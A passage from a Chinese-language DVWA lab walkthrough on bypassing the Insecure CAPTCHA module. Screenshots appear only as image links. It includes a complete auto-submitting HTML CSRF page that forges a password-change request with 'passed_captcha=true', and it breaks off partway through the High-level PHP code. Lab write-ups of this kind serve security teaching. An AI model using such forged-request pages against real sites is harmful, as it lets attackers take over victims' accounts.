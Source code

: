 抓到的包：

![][19]

更改之后的包：

![][20]

更改密码成功：

![][21]

2. 依然可以实施CSRF攻击，攻击页面代码如下。

<html>

<body onload="document.getElementById('transfer').submit()">

<div>

 <form method="POST" id="transfer" action=" [http://192.168.153.130/dvwa/vulnerabilities/captcha/][16]">

<input type="hidden" name="password_new" value="password">

<input type="hidden" name="password_conf" value="password">

<input type="hidden" name="passed_captcha" value="true">

<input type="hidden" name="step" value="2">

<input type="hidden" name="Change" value="Change">

</form>

</div>

</body>

</html>

当受害者访问这个页面时，攻击脚本会伪造改密请求发送给服务器。

![][22]

不过依然会跳转到更改密码成功的界面。

![][23]

**High**

服务器端核心代码：

    <?php 
    
    if( isset( $_POST[ 'Change' ] ) ) { 
        // Hide the CAPTCHA form 
        $hide_form = true; 
    
        // Get input 
        $pass_new  = $_POST[ 'password_new' ]; 
        $pass_conf = $_POST[ 'password_conf' ]; 
    

[1]: http://www.freebuf.com/articles/web/119692.html
[3]: http://www.dvwa.co.uk/
[4]: http://img1.tuicool.com/7VvYrm2.jpg!web
[5]: http://www.freebuf.com/sectool/102661.html
[6]: http://www.freebuf.com/articles/web/116437.html
[7]: http://www.freebuf.com/articles/web/116714.html
[8]: http://www.freebuf.com/articles/web/118352.html
[9]: http://www.freebuf.com/articles/web/119150.html
[10]: http://www.freebuf.com/articles/web/119467.html
[11]: http://img1.tuicool.com/MBJN7bE.jpg!web
[12]: http://img2.tuicool.com/NBnQZzB.jpg!web
[13]: http://img2.tuicool.com/rmEjiyq.jpg!web
[14]: http://img0.tuicool.com/eqYfMfI.jpg!web
[15]: http://img0.tuicool.com/YRFjMby.jpg!web
[16]: http://192.168.153.130/dvwa/vulnerabilities/captcha/
[17]: http://img2.tuicool.com/vMFbey6.jpg!web
[18]: http://img0.tuicool.com/naAbIvA.jpg!web
[19]: http://img2.tuicool.com/FBNRnyz.jpg!web
[20]: http://img0.tuicool.com/rqyEvyu.jpg!web
[21]: http://img2.tuicool.com/6n2UbuI.jpg!web
[22]: http://img2.tuicool.com/fU3IVbF.jpg!web
[23]: http://img1.tuicool.com/yEB3Yfj.jpg!web
[24]: http://img0.tuicool.com/uuiy6fn.jpg!web
[25]: http://img2.tuicool.com/fiAbum3.jpg!web
[26]: http://img1.tuicool.com/2qMRnaa.jpg!web
[27]: http://img2.tuicool.com/z6FNNzF.jpg!web